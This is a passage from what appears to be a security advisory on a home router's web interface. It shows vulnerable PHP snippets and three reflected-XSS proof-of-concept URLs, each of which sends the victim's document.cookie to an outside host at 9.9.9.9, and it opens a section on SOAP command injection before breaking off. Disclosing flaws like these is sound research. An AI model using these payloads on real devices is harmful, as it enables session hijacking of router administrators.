 An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
`http://192.168.0.1/bsc_sms_send.php?receiver="><script>window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie)</script><"`

2.xss inside /htdocs/ webinc/js/adv_parent_ctrl_map.php

```php
[…]
                var msgArray =
                [
                        '<?echo i18n("You have successfully configured your router to use OpenDNS Parental Control.");?>',
                        '<?echo i18n("Do you want to test the function?");?>',
                        '<p><input type="button" value="<?echo i18n('Test');?>" onclick="window.open(\'http://www.opendns.com/device/welcome/?device_id=<? echo $_GET["deviceid"];?>\')" /><input type="button" value="<?echo i18n('Return');?>" onClick="self.location.href=\'adv_parent_ctrl.php\';" /></p>'
                ];
                BODY.ShowMessage('<?echo i18n("OpenDNS PARENTAL CONTROLS");?>', msgArray);
[…]
```

An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
`http://192.168.0.1/adv_parent_ctrl_map.php?deviceid=whatever\');window.open(\'http://9.9.9.9:9999/cookie.asp?msg=\'+document.cookie`

3.xss inside /htdocs/ webinc/js/bsc_sms_inbox.php

```php
[…]
        InitValue: function(xml)
        {
                var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';     
         … 
        }
[…]
```

An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
`http://192.168.0.1/bsc_sms_inbox.php?Treturn=0';window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie);get_Treturn='1`

# 0x04 Details - LAN - revA/B - Command injection in SOAP controlType url interface

The vulnerability occurs in /htdocs/cgibin which is executed by the web server for, just handles almost http requests from WAN and LAN, and my research in analyzing SOAP interface started from a security analysis report regarding UPNP protocol, then I reviewed the SOAP interface, which is handled by the soapcgi_main function in cgibin, seems to have been mostly overlooked.
